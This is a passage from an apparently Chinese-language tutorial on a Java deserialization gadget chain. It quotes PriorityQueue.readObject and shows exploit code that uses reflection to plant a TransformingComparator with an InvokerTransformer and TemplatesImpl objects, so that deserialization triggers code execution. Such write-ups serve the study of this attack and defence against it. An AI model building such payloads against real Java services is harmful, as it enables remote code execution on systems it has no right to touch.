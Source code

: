 ```java
     * @param s the stream
     */
    private void readObject(java.io.ObjectInputStream s)
        throws java.io.IOException, ClassNotFoundException {
        // Read in size, and any hidden stuff
        s.defaultReadObject();

        // Read in (and discard) array length
        s.readInt();

        SharedSecrets.getJavaOISAccess().checkArray(s, Object[].class, size);
        queue = new Object[size];

        // Read in all elements.
        for (int i = 0; i < size; i++)
            queue[i] = s.readObject();

        // Elements are guaranteed to be in "proper order", but the
        // spec has never explained what that might be.
        heapify();//4
    }
```

阅读源码可知PriorityQueue在反序列化readObject时，会按照注释中4、3、2、1标注的顺序，维护一个桶排序树合法。

接下来就是要如何构造comparator和queue了。

根据注释1处，我们知道comparator应该是TransformingComparator的一个实例。

根据TemplatesImpl和InvokerTransformer的分析，我们知道queue应该是TemplatesImpl实例数组。

于是有Exp中的构造：

```java
    InvokerTransformer transformer=new InvokerTransformer("newTransformer",new Class[]{},new Object[]{});
    TransformingComparator comparator =new TransformingComparator(transformer);//使用TransformingComparator修饰器传入transformer对象
    PriorityQueue queue = new PriorityQueue(2);//使用指定的初始容量创建一个 PriorityQueue，并根据其自然顺序对元素进行排序。
    queue.add(1);//
    queue.add(2);//占位用

    Field field2=queue.getClass().getDeclaredField("comparator");//获取PriorityQueue的comparator字段
    field2.setAccessible(true);//暴力反射
    field2.set(queue,comparator);//设置queue的comparator字段值为comparator

    Field field3=queue.getClass().getDeclaredField("queue");//获取queue的queue字段
    field3.setAccessible(true);//暴力反射
    field3.set(queue,new Object[]{templatesImpl,templatesImpl});//设置queue的queue字段内容Object数组，内容为templatesImpl
```

#### 问题补充
